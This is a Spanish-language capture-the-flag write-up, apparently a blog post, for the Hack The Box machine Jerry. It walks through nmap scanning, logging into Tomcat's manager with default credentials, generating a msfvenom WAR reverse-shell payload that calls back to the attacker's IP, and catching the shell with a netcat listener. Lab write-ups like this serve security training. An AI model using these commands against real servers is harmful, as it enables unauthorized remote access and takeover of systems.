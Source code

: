 ```yaml
---
layout:   post
title:    "Write Up Jerry."
subtitle: "Starting-Point"
category:   HTB
tags:      [Easy, Windows, Upload, Tomcat, Payload, Java, RCE, Default-Credentials, Write-Up-Machine, Starting-Point, eJPT]
---
```

![list](/assets/img/jerry/Captura de pantalla (140).png){:.lead width="800" height="100" loading="lazy"}

***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconocimiento

Fase inicial donde recolectamos toda la información posible del objetivo, utilizando 

diferentes técnicas como:

| Caracter.                                   |
|:--------------------------------------------|
|Recopilación de tecnologuias.                |
|Dominios.                                    |
|IPs.                                         |
|Puertos.                                     |
|Servicios.                                   |
|Recopilación de metadatos, etc.              |


***
### nmap

Utizando nmap comprobamos que puertos estan abiertos.


```bash
nmap -p- --open --min-rate 5000 -n -vvv -Pn 10.10.10.95 -oA allports
```
El paso anterior se debe hacer con privileguios (root).
{:.note title="Attention"}


![list](/assets/img/jerry/Kali-2022-09-08-22-00-57.png){:.lead width="800" height="100" loading="lazy"}

***
### Servicios y versiones

Una vez sabemos que puertos estan abiertos con el comandoa anterior debemos saber que 

versiones y servicios que corren en los mismo de ahi podremos determinara posibles 

vulnerabilidades.

Esto lo hacemos con el siguiente comando.


```bash
nmap -p8080 -sV -sC 10.10.10.95 -oN target
```
El paso anterior no es nesesario ser (root).
{:.note title="Attention"}


![list](/assets/img/jerry/Kali-2022-09-08-22-02-30.png){:.lead width="800" height="100" loading="lazy"}


***
## Analisis de vulnerabilidades

Uso de Investigacion web, Google Hacking,Google Dorks.

Recopilación de información gracias a servicios de terceros.

Ispeccionamos la web.

![list](/assets/img/jerry/Kali-2022-09-08-22-06-39.png){:.lead width="800" height="100" loading="lazy"}

Inpeccionamos las tecnologias de la ip ataves de la terminal o via  web esto lo 

hacemos con wapalizzer o whatweb.

![list](/assets/img/jerry/Kali-2022-09-08-22-04-28.png){:.lead width="800" height="100" loading="lazy"}

En google podemos bucar claves por defecto segun que tecnologias averiguemos o 

simplemente podemos hacer user/pass desing o (usuario y contraseñas por defecto) 

podemos usar burpsuite para inteceptar peticiones y averiguar mas datos pero en 

este caso la cxredeciales estan expuestas 

`user=tomcat pass=s3cret`.

![list](/assets/img/jerry/Kali-2022-09-08-22-11-20.png){:.lead width="800" height="100" loading="lazy"}

***


Ingresamos al panel de configuiaracion  e igual ispeccionamos la pagina es algo 

que deberemos hacer habitual en cada maquina que nos dipongamos a explotar, vemos 

la posibilidad de subir archivos .war, por lo que podemos explotar esa ventaja ,

podreos intentar subir cualaquier archivo a modo de prueba pero no nos deja. 

![list](/assets/img/jerry/Kali-2022-09-08-22-13-45.png){:.lead width="800" height="100" loading="lazy"}

***
## Explotacion

Por lo que crearemos un payload o (carga util) con mfsvenom para cosegir una 

reverse shell. 

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.10 LPORT=443 -f war > shell.war
```
El LHOST Y LPORT deberan ser la ip de tu VPN y un puerto que tu quieras. 
{:.note}

La subimos al srvidor y con el listener a la ecucha `nc -lvnp 443` damos clic 

donde dice el nombre de nuestra carga util lo que hara que se conecte a nuestro 

nc otrogandonos la reverse shell.

***
## Escalacion de privilegios

Jerry no tiene escalacion de privilegios ya que ya somos root ,pero podemos 

bucar la flag, este caso se ecuentar en el mismo archivo las dos flags en el 

escritorio.

![list](/assets/img/jerry/Kali-2022-09-08-23-24-48.png){:.lead width="800" height="100" loading="lazy"}

```bash
🎉 Felicitaciones ya has comprometido Jerry de HackTheBox 🎉
```
{:.centered}
***
Back to [Beginner Track](2022-09-12-Beginner-Track.md){:.heading.flip-title}
{:.read-more}